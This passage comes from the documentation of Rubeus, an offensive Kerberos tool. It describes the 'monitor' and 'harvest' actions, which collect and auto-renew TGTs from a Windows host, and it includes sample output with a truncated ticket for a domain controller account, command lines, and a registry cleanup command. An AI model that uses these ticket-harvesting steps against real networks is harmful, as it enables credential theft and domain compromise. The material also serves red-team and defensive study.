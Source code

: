  v1.5.0

 [*] Action: TGT Monitoring
 [*] Target user : DC$
 [*] Monitoring every 10 seconds for new TGTs


 [*] 12/21/2019 1116 PM UTC - Found new TGT:

 User : DC$@THESHIRE.LOCAL
 StartTime : 12/21/2019 231 PM
 EndTime : 12/21/2019 331 PM
 RenewTill : 12/22019 206 PM
 Flags : name_canonicalize, pre_authent, renewable, forwarded, forwardable
 Base64EncodedTicket :

 doIFFDCCBRCgAwIBBaEDAgEWoo...(snip)...

 [*] Ticket cache size: 1


**Note that this action needs to be run from an elevated context!**


### harvest

The **harvest** action takes [monitor](#monitor) one step further. It periodically extract all TGTs every `/monitorinterval:X` seconds (default of 60), extracts any new TGT KRB-CRED files, and keeps a cache of any extracted TGTs. Every interval, any TGTs that will expire before the next interval are automatically renewed (up until their renewal limit). Every `/displayinterval:X` seconds (default of 1200) and the current cache of "usable"/valid TGT KRB-CRED .kirbis are output as base64 blobs.

This allows you to harvest usable TGTs from a system without opening up a read handle to LSASS, though elevated rights are needed to extract the tickets.

The `/nowrap` flag causes the base64 encoded ticket output to no wrap per line.

Further, if you wish to save the output to the registry, pass the `/registry` flag and specfiy a path under HKLM to create (e.g., `/registry:SOFTWARE\MONITOR`). Then you can remove this entry after you've finished running Rubeus by `Get-Item HKLM:\SOFTWARE\MONITOR\ | Remove-Item -Recurse -Force`.

 c:\Rubeus>Rubeus.exe harvest /interval:30

 ______ _
 (_____ \ | |
 _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/

 v0.0.1a

 [*] Action: TGT Harvesting (w/ auto-renewal)

 [*] Monitoring every 30 minutes for 4624 logon events

 ...(snip)...
